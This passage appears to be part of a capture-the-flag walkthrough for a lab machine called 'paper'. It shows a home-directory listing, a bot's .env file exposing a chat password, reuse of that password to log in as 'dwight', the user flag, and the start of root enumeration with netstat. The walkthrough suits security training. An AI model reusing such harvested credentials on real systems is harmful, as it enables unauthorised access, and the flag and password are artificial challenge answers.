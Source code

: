 ```bash
-rw-r--r-- 1 dwight dwight 358 Jul 3 2021 .bashrc
drwxrwxr-x 2 dwight dwight 34 Feb 13 11:05 bin
-rwxr-xr-x 1 dwight dwight 1219 Feb 13 11:07 bot_restart.sh
-rwxrwxr-x 1 dwight dwight 9627 Feb 14 14:04 bumble.sh
drwx------ 5 dwight dwight 56 Jul 3 2021 .config
-rw------- 1 dwight dwight 16 Jul 3 2021 .esd_auth
-rw-rw-r-- 1 dwight dwight 2434 Feb 14 08:05 exploit.py
-rwxrwxr-x 1 dwight dwight 9628 Feb 14 07:50 exploit.sh
drwx------ 3 dwight dwight 69 Feb 14 11:00 .gnupg
drwx------ 8 dwight dwight 4096 Sep 16 07:57 hubot
-rw-rw-r-- 1 dwight dwight 18 Sep 16 07:24 .hubot_history
-rw------- 1 dwight dwight 36 Feb 14 11:12 .lesshst
drwx------ 4 dwight dwight 30 Feb 13 10:25 .local
drwxr-xr-x 4 dwight dwight 39 Jul 3 2021 .mozilla
drwxrwxr-x 5 dwight dwight 83 Jul 3 2021 .npm
-rw-rw-r-- 1 dwight dwight 0 Feb 14 15:21 root.txt
drwxr-xr-x 4 dwight dwight 32 Jul 3 2021 sales
drwx------ 2 dwight dwight 6 Sep 16 08:56 .ssh
-r-------- 1 dwight dwight 33 Feb 13 00:40 user.txt
drwxr-xr-x 2 dwight dwight 24 Sep 16 07:09 .vim
-rw------- 1 dwight dwight 1757 Feb 14 15:17 .viminfo

$ file ../hubot/.env
<!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```

Login with found credentials: `dwight:Queenofblad3s!23`

Grab user.txt
```bash
[dwight@paper ~]$ cat user.txt 
c08f19a9c33103d08cc0273fda6e8497
```

--------------

# ROOT

### Step 1 
- `dwight` is not able to run commands as `sudo`. 

```bash
[dwight@paper tmp]$ netstat -antp
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:48320         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      2395/node           
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:27017         0.0.0.0:*               LISTEN      -                   
```